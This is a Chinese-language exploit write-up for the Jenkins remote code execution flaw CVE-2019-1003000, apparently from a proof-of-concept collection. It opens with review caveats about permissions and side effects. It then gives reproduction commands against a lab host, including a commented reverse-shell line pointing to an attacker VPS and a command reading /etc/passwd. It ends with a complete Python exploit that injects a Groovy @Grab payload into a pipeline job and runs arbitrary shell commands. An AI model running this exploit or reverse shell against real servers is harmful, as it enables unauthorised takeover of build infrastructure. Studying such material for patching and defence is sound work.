


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Declarative&lt;1.3.4.1、Pipeline Groovy&lt;2.61.1、Script Security&lt;1.50；工具需要读/改/构建目标Pipeline job权限，不能仅Overall/Read

代码与实验材料：Adam Jordan完整Python2脚本，会改配置、触发构建、拉第三方jproc依赖；无finally恢复，轮询可能永久等待

来源证据范围：原始adamyordan仓库在代码署名，实验第三方训练域名

- **适用与权限边界（1）**：权限和组件映射混淆；依据：说明称Overall/Read即可，脚本reconfig_job/build_job需要更高权限；Groovy Plugin误省Pipeline，三个CVE不能共用单一version元数据。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（2）**：PoC持久改动与结果竞态未提示；依据：改既有job、恢复前若报错遗留payload；只等queue executable而不等构建完成，再取lastBuild可能读到并发其他任务。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **适用与权限边界（3）**：环境与参数不完整；依据：python2与python-jenkins依赖没安装说明，脚本默认字段可能缺、命令插入Groovy字符串未转义；训练目标应占位。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Jenkins 远程代码执行漏洞 CVE-2019-1003000

## 漏洞描述

Jenkins是一个开源软件项目，是基于Java开发的一种持续集成工具，用于监控持续重复的工作，旨在提供一个开放易用的软件平台，使软件项目可以进行持续集成.

该漏洞存在于`Declarative Plugin 1.3.4.1`之前的版本, `Groovy Plugin 2.61.1`之前的版本以及`Script Security Plugin 1.50`之前的版本。该漏洞通过将AST转换注释（如@Grab）应用于源代码元素，可以在脚本编译阶段避免脚本安全沙箱保护。所以会造成具有`Overall/Read`权限的用户或能够控制SCM中的`Jenkinsfile`或者`sandboxed Pipeline`共享库内容的用户可以绕过沙盒保护并在Jenkins主服务器上执行任意代码。

## 漏洞影响

```
Declarative Plugin < 1.3.4.1
Groovy Plugin < 2.61.1
Script Security Plugin < 1.50
```

## 漏洞复现

账号密码 user1/user1 登录：



```shell
# activate py27
python exploit.py --url http://eci-2ze1x17tl0kujrg3c5ey.cloudeci1.ichunqiu.com:8080 --job my-pipeline --username user1 --password user1 --cmd "cat /etc/passwd"

# --cmd "bash -i >& /dev/tcp/<YOUR-VPS-IP>/<YOUR-VPS-PORT> 0>&1"
```



## 漏洞POC

```
python exploit.py --url http://jenkins-site.com --job job_name --username your_user --password your_passwd --cmd "cat /etc/passwd"
```

```python
#!/usr/bin/python

# Author: Adam Jordan
# Date: 2019-02-15
# Repository: https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc
# PoC for: SECURITY-1266 / CVE-2019-1003000 (Script Security), CVE-2019-1003001 (Pipeline: Groovy), CVE-2019-1003002 (Pipeline: Declarative)


import argparse
import jenkins
import time
from xml.etree import ElementTree

payload = '''
import org.buildobjects.process.ProcBuilder
@Grab('org.buildobjects:jproc:2.2.3')
class Dummy{ }

print new ProcBuilder("/bin/bash").withArgs("-c","%s").run().getOutputString()
'''


def run_command(url, cmd, job_name, username, password):
    print '[+] connecting to jenkins...'
    server = jenkins.Jenkins(url, username, password)

    print '[+] crafting payload...'
    ori_job_config = server.get_job_config(job_name)
    et = ElementTree.fromstring(ori_job_config)
    et.find('definition/script').text = payload % cmd
    job_config = ElementTree.tostring(et, encoding='utf8', method='xml')

    print '[+] modifying job with payload...'
    server.reconfig_job(job_name, job_config)
    time.sleep(3)

    print '[+] putting job build to queue...'
    queue_number = server.build_job(job_name)
    time.sleep(3)

    print '[+] waiting for job to build...'
    queue_item_info = {}
    while 'executable' not in queue_item_info:
        queue_item_info = server.get_queue_item(queue_number)
        time.sleep(1)

    print '[+] restoring job...'
    server.reconfig_job(job_name, ori_job_config)
    time.sleep(3)

    print '[+] fetching output...'
    last_build_number = server.get_job_info(job_name)['lastBuild']['number']
    console_output = server.get_build_console_output(job_name, last_build_number)

    print '[+] OUTPUT:'
    print console_output


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Jenkins RCE')

    parser.add_argument('--url', help='target jenkins url')
    parser.add_argument('--cmd', help='system command to be run')
    parser.add_argument('--job', help='job name')
    parser.add_argument('--username', help='username')
    parser.add_argument('--password', help='password')

    args = parser.parse_args()

    run_command(args.url, args.cmd, args.job, args.username, args.password)

```


---

> 来源：Threekiii/Awesome-POC
